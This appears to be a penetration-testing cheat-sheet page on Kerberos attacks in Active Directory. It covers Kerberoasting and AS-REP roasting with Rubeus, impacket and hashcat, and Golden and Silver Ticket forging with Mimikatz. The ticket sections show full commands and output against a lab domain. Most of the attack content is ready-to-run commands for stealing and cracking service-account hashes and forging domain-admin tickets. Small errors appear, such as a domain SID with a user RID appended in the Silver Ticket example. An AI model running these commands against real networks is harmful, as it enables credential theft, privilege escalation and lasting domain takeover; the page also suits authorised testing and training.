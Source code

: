 # Kerberos Attacks

## Relationships and Attack paths

We can use [bloodhound ](../../tools/bloodhound/)to find hidden relationships and attack paths in an Active Directory environment.

From the data collect we can escalate our privilege to the target, or use tools like [aclpwn](../../tools/bloodhound/aclpwn.md).

## Kerberoasting

The [AD Powershell ](https://github.com/samratashok/ADModule)module can be used to search for users with SPN

| `Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose`  `Get-ADUser -LdapFilter "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"` `| Format-Table Name, DistinguishedNam` |
| :--- |


Using Nmap: 

`nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'` 

Using Rubeus to gain hashes: 

`Rubeus.exe kerberoast /outfile:hashes.txt` 

 Use the hashcat -m 13100 \(Kerberos 5 TGS-REP etype 23\) to crack:  

`hashcat -a 0` `-m 13100` `SPN.hash /wordlists/rockyou.txt`

Using impacket:

\`\`

```text
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

[https://newerasec.com/kerberoasting/](https://newerasec.com/kerberoasting/)

## AS-RES

Find users with pre-auth enabled using the [AD Powershell ](https://github.com/samratashok/ADModule)module :

```text
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose

Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

To exploit run:

```text
.\Rubeus.exe asreproast
```

[https://newerasec.com/as-roast/](https://newerasec.com/as-roast/)

## Golden Ticket

Once you gained the krbtgt hash \(from dcsync or DC compromise\)T

The Mimikatz kerberos::golden module handles Golden Tickets

We need the following parameters:  

* /domain - name of the domain
* /sid - the sid of the domain \(can be obtain from 'whoami /user' , remember to remove the RID\)
* /rc4 - the NTLM hash of krbtgt
* /user - the user you want to create the new TGT ticket for
* /id - the RIF of that user you looking to create ticket for
* /ptt - \(Optional\) inject the new ticket into the current session, if not applied the ticket will be saved to a file

```text
mimikatz # kerberos::golden /domain:eth.lab /sid:S-1-5-21-98033113-2199257571-2188946577 /rc4:88a4507aae31297a2df7921b1430d781 /user:Administrator /id:500  /ptt
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 88a4507aae31297a2df7921b1430d781 - rc4_hmac_nt
Lifetime  : 06/04/2020 14:05:45 ; 04/04/2030 14:05:45 ; 04/04/2030 14:05:45
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session 
```

## Silver Ticket

use the 'kerberos::golden' module to forge TGS, we will need to pass the following parameters:

* /domain: The FDQN
* /sid: The SID \(Security Identifier\) of the Domain \(whoami /user\)
* /user: Target Account/Computer to Impersonate
* /id: RID of the account you will be impersonating
* /ptt: Optional \( will automatically inject the ticket into the current session\)
* /rc4: NTLM Hash of User Password/Computer Password
* /service: the service we want to access

**Example:**

```text
mimikatz # kerberos::golden /sid:S-1-5-21-98033113-2199257571-2188946577-500 /domain:eth.lab /ptt /id:500 /target:WIN-EU4DLP9KRRC.eth.lab /service:cifs /rc4:0c0d4252608be9131c2826a6feaf94b8 /user:Administrator
User      : Administrator
Domain    : eth.lab (ETH)
SID       : S-1-5-21-98033113-2199257571-2188946577-500
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 0c0d4252608be9131c2826a6feaf94b8 - rc4_hmac_nt
Service   : cifs
Target    : WIN-EU4DLP9KRRC.eth.lab
Lifetime  : 03/04/2020 17:00:01 ; 01/04/2030 17:00:01 ; 01/04/2030 17:00:01
-> Ticket : ** Pass The Ticket **
 
 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated
 
Golden ticket for 'Administrator @ eth.lab' successfully submitted for current session
```


